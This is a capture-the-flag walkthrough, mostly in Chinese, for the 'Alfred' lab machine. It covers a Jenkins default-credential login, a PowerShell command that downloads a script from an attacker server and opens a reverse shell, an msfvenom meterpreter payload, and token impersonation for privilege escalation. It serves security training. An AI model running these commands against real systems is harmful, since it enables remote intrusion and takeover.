# Alfred

### 1.How many ports are open? (TCP only)
nmap -Pn -sS -A -v -T4 IP地址<br>


### 2.What is the username and password for the login panel? (in the format username:password)
admin:admin弱密码<br>


### 3.What is the user.txt flag? 
Jenkins有一个配置错误，通过进入Manage Jenkins的Script Console页面可以执行代码。因此payload如下<br>
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.248.101:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.192.5 -Port 4444
```
在此之前需要用http.server搭好一个简单的http服务<br>
<br>
开启另一个终端，nc监听4444端口<br>
<br>
使用Build Now上传payload，获取shell，得到flag<br>
<br>
<br>
<br>

### 4.Read the root.txt file located at C:\Windows\System32\config
下面需要提升权限，这次提升权限可以通过模拟令牌并迁移进程来达到，首先需要获取msf的shell更好利用payload<br>
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
``` 
生成一个反向shell，使用powershell命令下载并执行，获得msfshell<br>
<br>
<br>
whoami /priv 查看权限<br>
<br>
SeDebugPrivilege和SeImpersonatePrivilege可利用，load incognito加载扩展，list_tokens -g列出令牌，BUILTIN\Administrators可用，impersonate_token "BUILTIN\Administrators"进行模拟<br>
<br>
<br>
然后ps查看进程，使用migrate迁移到service上，得到flag<br>
<br>
<br>
<br>